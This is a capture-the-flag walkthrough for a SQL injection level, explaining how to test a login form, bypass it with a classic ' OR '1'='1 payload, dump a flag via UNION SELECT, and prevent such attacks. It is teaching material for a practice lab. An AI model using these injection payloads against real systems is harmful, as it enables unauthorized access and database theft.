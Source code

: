 # Level 3 Walkthrough: SQL Injection 🕵️‍♂️💻

Welcome to **Level 3** of the Allsafeafrica x SimulationsLabs CTF Challenge! 🚀  
This level introduces you to **SQL Injection (SQLi)**, one of the most common yet dangerous web application vulnerabilities.

---

## 🎯 Challenge Goal

- Access the hidden **flag** stored in the backend database.
- The web app has a login form with fields: `username` and `password`.
- The challenge is to **bypass login** using SQL Injection.

---

## 📝 Step-by-Step Walkthrough

### 1. Understand the Scenario
When you enter a username and password, the backend likely runs an SQL query like:
```sql
SELECT * FROM users WHERE username = '<input>' AND password = '<input>';
```

If input is not properly sanitized, you can **inject SQL code**.

---

### 2. Test for SQLi Vulnerability
Try entering a single quote `'` in the username field:
```txt
Username: '
Password: test
```

If you get an error like:
```sql
You have an error in your SQL syntax
```
Congrats — it’s vulnerable to SQL Injection.

---

### 3. Bypass Login with SQL Injection
A classic trick is using:
```txt
Username: ' OR '1'='1
Password: anything
```

This changes the query to:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'anything';
```

Since `'1'='1'` is **always true**, the system logs you in without a valid password. 🎉

---

### 4. Extract the Flag
Once logged in, explore the app. You may find the **flag** displayed on the dashboard or in hidden pages.

If the challenge provides direct query-based hints, you can attempt:
```sql
' UNION SELECT 1, flag, 3 -- 
```
This could dump the flag from a `flag` column in a table.

---

## ✅ Flag Found
Example (for demo):
```txt
FLAG{SQLi_Unlocked_Level3}
```

---

## 🔒 Mitigation (Real-World Lesson)
To prevent SQL Injection:
- Use **Prepared Statements (Parameterized Queries)**.
- Validate and sanitize user inputs.
- Apply the **Principle of Least Privilege** to database accounts.

---

## 🌍 Why It Matters
SQL Injection is one of the **OWASP Top 10** vulnerabilities and has caused massive real-world breaches. By practicing it in a **safe CTF environment**, you:
- Learn attacker mindset.
- Build stronger defenses.
- Unlock new cyber skills for real-world security challenges.

---

🚀 Next step: Try harder queries, explore blind SQLi, and prepare for **Level 4**!
